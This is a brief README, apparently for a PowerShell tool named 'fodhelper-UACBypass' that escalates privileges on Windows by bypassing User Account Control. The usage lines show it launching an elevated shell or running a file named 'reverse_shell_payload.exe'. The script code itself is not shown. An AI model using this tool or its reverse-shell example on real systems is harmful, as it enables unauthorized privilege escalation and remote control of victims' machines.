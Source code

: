 # fodhelper-UACBypass

## Usage
```powershell
. ./fodhelper-UACBypass.ps1
Bypass-UAC "C:\Users\john\reverse_shell_payload.exe"
# or
Bypass-UAC # launch powershell window.

```
